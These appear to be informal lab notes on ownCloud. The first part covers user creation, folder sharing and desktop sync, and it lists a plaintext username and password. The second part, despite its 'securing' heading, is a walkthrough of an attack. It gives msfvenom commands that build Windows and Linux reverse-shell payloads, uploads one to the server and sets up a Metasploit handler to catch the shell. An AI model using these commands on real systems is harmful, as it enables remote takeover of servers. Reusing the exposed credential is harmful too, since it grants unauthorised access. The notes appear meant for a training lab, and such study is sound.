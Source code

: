 1) Creating User Accounts and assigning user rights in owncloud 
	1) open owncloud admin panel by clicking on the right top 
	2) on admin  page type username and password you want to create 
	3) To share files with users click menu icon on top left and click files 
	4) click `+`  to add a folder and rename the folder as share
	5) open the folder and try to upload the files 
	6) on the share folder click `...` and click on detail and open sharing tab 
	7) add the name of the user in users and groups 
	8) open the user computer enter the `http://IP/owncloud/`
	9) enter the credential username shane and password florida@123
	10) click on the share  folder 
	11) open the windows server and open ownDesktop Client 
	12) install it and enter the admin credentials 
	13) do next next and done
	14) owncloud is then synced with `C:\users\admin\owncloud` 
	15) copy any file in any directory and place in the above path will be shared on the cloud 


2) Securing owncloud from malicious file upload 
	1) msfvenom -p windows/meterpreter/reverse_tcp -f exe > /root/Desktop/trojan.exe 
	2) from firefox open owncloud 
	3) using shanes IP pass login
	4) try to upload the trojan but unable to upload due  to filtering 
	5) msfvenom -p linux/x86/shell/reverse_tcp LHOST=  LPORT= --platform linux -f elf > /root/Desktop/exploit.elf
	6) we are able to exploit it 
	7) msfconsole exploit , multi handler set payload  linux/x86/shell/reverse_tcp
	8) go to ubuntu server and change the file permissions in elf file 